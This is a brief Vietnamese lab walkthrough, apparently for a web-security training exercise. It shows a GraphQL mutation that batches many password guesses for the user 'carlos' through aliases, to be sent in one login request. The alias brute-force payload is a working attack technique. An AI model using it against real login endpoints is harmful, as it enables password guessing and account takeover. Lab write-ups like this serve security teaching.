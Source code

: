Chạy nhanh đoạn js này bằng console browser

Đoạn script dạng:

```graphql
bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }
```

Copy vào request mutation:

![alt text](image-17.png)

![alt text](image-18.png)

---